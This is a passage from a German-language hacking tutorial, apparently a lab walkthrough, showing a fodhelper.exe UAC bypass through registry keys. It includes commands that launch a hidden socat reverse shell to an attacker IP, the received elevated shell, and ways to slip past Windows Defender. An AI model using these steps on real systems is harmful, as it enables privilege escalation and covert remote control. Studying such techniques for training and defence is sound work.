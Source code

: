 Und ändern Sie den Exploit so, dass "fodhelper.exe" sofort nach dem Setzen des Registrierungswertes ausgeführt wird. Wenn der Befehl schnell genug ausgeführt wird, funktioniert es einfach (stellen Sie sicher, dass Sie Ihre IP-Adresse entsprechend ersetzen):
```cmd
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

Je nach Glück könnte "fodhelper" ausgeführt werden, bevor der Virenschutz anspringt, und Ihnen eine Reverse-Shell zurückgeben. Falls es aus irgendeinem Grund nicht funktioniert, beachten Sie, dass diese Methode unzuverlässig ist, da sie von einem Wettlauf zwischen dem Virenschutz und der Ausführung Ihres Payloads abhängt. Sollte die Reverse-Shell nicht funktionieren, fahren Sie einfach mit dem Rest der Anleitung fort, da weiter unten eine konsistentere Methode zur Umgehung von Windows Defender vorgestellt wird.
```shell
user@kali$ nc -lvp 4444      
Listening on 0.0.0.0 4444
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Windows Defender warnt weiterhin vor der Umgehung. Das Problem bei unserem aktuellen Exploit ist, dass er wenig Spielraum für Variationen lässt, da wir spezifische Registrierungsschlüssel schreiben müssen, um ihn auszulösen, was es Windows Defender leicht macht, ihn zu erkennen. Aber es gibt noch etwas, das wir dagegen tun können.

### Verbesserung des "fodhelper"-Exploits

Eine Variation des "fodhelper"-Exploits wurde von [@V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses) vorgeschlagen, bei der andere Registrierungsschlüssel verwendet werden, aber das Grundprinzip dasselbe bleibt.

Anstatt unser Payload in `HKCU\Software\Classes\ms-settings\Shell\Open\command` zu schreiben, verwenden wir den Eintrag `CurVer` unter einem "progID"-Registrierungsschlüssel. Dieser Eintrag wird verwendet, wenn Sie mehrere Instanzen einer Anwendung mit verschiedenen Versionen auf demselben System ausführen. "CurVer" ermöglicht es Ihnen, auf die Standardversion der Anwendung zu verweisen, die von Windows beim Öffnen eines bestimmten Dateityps verwendet werden soll.

Zu diesem Zweck erstellen wir einen Eintrag in der Registrierung für eine neue "progID" unserer Wahl (jeder Name ist möglich) und verweisen dann im "ms-settings progID" Eintrag "CurVer" auf unsere neu erstellte "progID". Auf diese Weise, wenn "fodhelper" versucht, ein Programm mit dem "ms-settings progID" zu öffnen, wird es den "CurVer"-Eintrag bemerken, der auf unsere neue "progID" verweist, und überprüfen, welchen Befehl es verwenden soll.
